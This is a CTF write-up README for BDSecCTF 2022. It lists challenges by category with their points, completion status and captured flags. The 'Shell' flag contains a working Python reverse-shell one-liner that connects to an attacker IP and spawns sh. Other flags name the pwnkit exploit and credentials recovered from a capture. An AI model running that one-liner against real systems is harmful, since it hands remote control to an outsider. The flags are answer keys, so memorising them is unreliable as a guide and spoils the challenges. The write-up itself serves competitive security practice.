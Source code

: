 # BDSecCTF - Write Up

## Context
The goal is to solve cybersecurity tests in various categories. The validation of a challenge is done by retrieving a string called flag which confirms the fact that you have passed the associated test and allows you to obtain the associated points.

## Rules
- Time : 24h (07/20/22 17h - 07/21/22 17h (UTC+2) )
- Max Pers per Team : 5
- Submit Limit : 30 per chall

## Results 
<p align='center'>

| ![Screenshot](Stats.png)            | ![Screenshot](Scoreboard.png)                                                                                                           |
| --------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
</p>

## Challenges

| Chall Name                                                       | Category     | Author     | Points | Done | Flag |
|------------------------------------------------------------------|:-------------:|:----------:|:--------------:|:------:|:---------:|
| Sound's Good                                    | Stegano          | pmsiam   | 50     | ✘ | `` |
| Deep Dive Into It !!                                           | Stegano        | pmsiam   | 250     | ✘ | `` |
| PwnRace                                    | PWN        | froghunter   | 200     | ✔ | `` |
| BDSec License Checker 0x1                                    | Reverse        | NomanProdhan   | 50     | ✘ | `BDSEC{l1c3n53_ch3ck3r_0x1_2022}` |
| shashdot                                    | Reverse        | froghunter   | 50     | ✘ | `` |
| Flag Box                                    | Reverse        |  marufmurtuza   | 100     | ✔ | `` |
| Simple Math                                    | Reverse        |  marufmurtuza   | 100     | ✔ | `` |
| Poster                                    | Reverse        |  froghunter   | 100     | ✔ | `` |
| BDSec License Checker 0x03                                    | Reverse        |  NomanProdhan   | 150     | ✘ | `BDSEC{iTs_lIcEnsE_cHeCker_tHrEE_bDsEc}` |
| BDSec License Checker 0x02                                    | Reverse        |  NomanProdhan   | 200     | ✘ | `` |
| Crypto Code                                    | Crypto        | 1xR1FAT   | 25     | ✔ | `BDSEC{cryp70_and_pyth0n_ar3_aw3s0me}` |
| [VIPx01](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/VIPx01)                                    | Crypto        | 1xR1FAT   | 25     | ✔ | `BDSEC{crypt0_ar3_aw3s0m3}` |
| VIPx02                                    | Crypto        | 1xR1FAT   | 25     | ✘ | `BDSEC{crypt0_ar3_aw3s0m3_&_try_t0_1earn_crypt0}` |
| [Fake](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Fake)                                    | Crypto        | 1xR1FAT   | 50     | ✔ | `BDSEC{do3sn't_b3li3ve_1n_unkn0wn_mail}` |
| [Basically RSA](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Basically%20RSA)                                    | Crypto        | dyn   | 100     | ✔ | `DSEC{r54_i5_fUn_r16h7?}` |
| Dominoes                                    | Crypto        | dyn   | 50     | ✘ | `BDSEC{n0t_50_e45y_hUh?_433}` |
| Loop Lover                                    | Crypto        | dyn   | 100     | ✘ | `BDSEC{ju57_L00p_m3_4w4y}` |
| Jungle Templating                                    | WEB        |  0xmahi   | 100     | ✔ | `BDSEC{Y3Y_7H1515_7H3_F146}` |
| Awesome Note Keeping                                    | WEB        |  NomanProdhan   | 100     | ✔ | `BDSEC{tHe_n0t3_K33p1n6_4W350M3_N5}` |
| Knight Squad Shop                                    | WEB        |  froghunter   | 100     | ✔ | `BDSEC{mummy_i_can't_write_javaScript}` |
| [Find The Cost](https://github.com/Beel0w/BDSecCTF/tree/main/Programming/Find%20the%20Cost)                                    | Programing        | marufmurtuza| 100     | ✔ | `BDSEC{35,47}` |
| Find The Masterpiece                                    | OSINT        | marufmurtuza   | 50     | ✔ | `BDSEC{he’s_a_pirate,2003}` |
| [Find Rejvi](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20Rejvi)                                    | OSINT        | NomanProdhan   | 70     | ✔ | `BDSEC{yoU_goT_m3__oS1nT_I5_fUn_r1Gh7}` |
| Find Me Inside | OSINT        | Axif   | 50     | ✔ | `BDSEC{M33m_the_butterfly_goes_up_up_and_away}` |
| [Message of Hufflepuff](https://github.com/Beel0w/BDSecCTF/tree/main/Misc/Message%20of%20Hufflepuff)                                    | Misc        | marufmurtuza   | 50     | ✔ | `BDSEC{Huffm@n_Enc0d1ng_go7_D3COD3D}` |
| Victim & Attacker | Networking        | TareqAhamed   | 25     | ✔ | `BDSEC{192.168.1.13_192.168.1.10}` |
| Which FTP ? | Networking        | marufmurtuza   | 50     | ✔ | `BDSEC{vsFTPd_3.0.3}` |
| FTP Creads | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{ftpadmin_ftpadmin}` |
| Uploaded File | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{/files/.hacker.not}` |
| Log Filer | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{vsftpd.log}` |
| Project Incharge | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{Mark}` |
| Loooon Looong | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{Thu_Jul_14_10:16:59}` |
| Administrator | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{demo,demo}` |
| Shell | Networking        | TareqAhamed   | 50     | ✔ | <details><summary>`BDSEC{....`</summary>`BDSEC{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'}`</details> |
| Secret Key | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{2jo3t12nv51w1pw4wk1kj58s1jb6w0}` |
| Database Admin | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{root_root}` |
| HostName | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{ftpadmin}` |
| CodeName | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{xenial}` |
| Server Info | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{Ubuntu_16.04.1_LTS_Xenial_Xerus}` |
| Service Exploit | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{polkit}` |
| Exploit Exploit Exploit | Networking        |  marufmurtuza   | 50     | ✔ | `BDSEC{pwnkit}` |
| Vulnerable Service | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{pkexec}` |
| msg.txt | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{The_Server_Is_Now_under_My_Control_:D_:D}` |
| Attacker | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{N4N0M473}` |
| Server User's | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{8}` |  

**Total : 46 Challenges ( 3220 Points )**
 
Credits : [Beel0w](https://github.com/Beel0w)  
Last Edited on: 22/07/2022
  
